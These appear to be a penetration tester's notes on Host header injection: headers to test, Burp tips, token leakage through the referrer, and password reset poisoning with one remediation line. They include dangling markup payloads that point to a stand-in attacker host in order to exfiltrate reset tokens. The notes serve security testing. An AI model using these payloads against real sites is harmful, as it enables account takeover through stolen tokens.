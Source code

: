 Host-Header_Injection

## Headers to test
```
X-Forwarded-Host
X-Host
X-Forwarded-Server
X-HTTP-Host-Override
Forwarded
X-Forwarded-For
```

---

## Param miner extension "guest headers" in Burp

---

## Tips

- Duplicate Host headers
- Absolute url
- Duplicate and add line wrapping
- Inject host override headers (see Headers to test)

---

## Password reset token leak via referrer

- Reset password
- click on the link you received by e mail
- don't change the password, instead, click on any third party pages you can see on the webpage
- intercept the request with burp and check if you have the token inside.

---

## Password reset poisoning

- Modify Host header with your server. When the victim will click on the link, thanks to the evil host headers, the password reset token will be delivered to the attacker's server. Then, use the link you received.

- Try also the other headers, or the tips.

- Try adding `:<port_or_string>` at the end and see what kind of answer you have in your inbox. Is the `:` escaped ? Can you add `<` after that ? View source page for that. Do you have to escape with single or double quote ?

- Patch it using $_SERVER['SERVER_NAME'] rather thant $_SERVER['SERVER_HOST']

### Via dangling markup

```
<input type="text" name="input" value="CONTROLLABLE DATA HERE
```

- Suppose also that the application does not filter or escape the > or " characters. An attacker can use the following syntax to break out of the quoted attribute value and the enclosing tag, and return to an HTML context: `">`

- In this situation, an attacker would naturally attempt to perform XSS. But suppose that a regular XSS attack is not possible, due to input filters, content security policy, or other obstacles. Here, it might still be possible to deliver a dangling markup injection attack using a payload like the following:
```
"><img src='//attacker-website.com?
'<href src="//attacker-website.com/?
```

- Try to find if you have to escape the context or not, and then include your < and the payload. View source page to check it.

- Here, when the victim will go on the inbox, it's will reflect it automatically, and you'll receive stuff on your server.

---




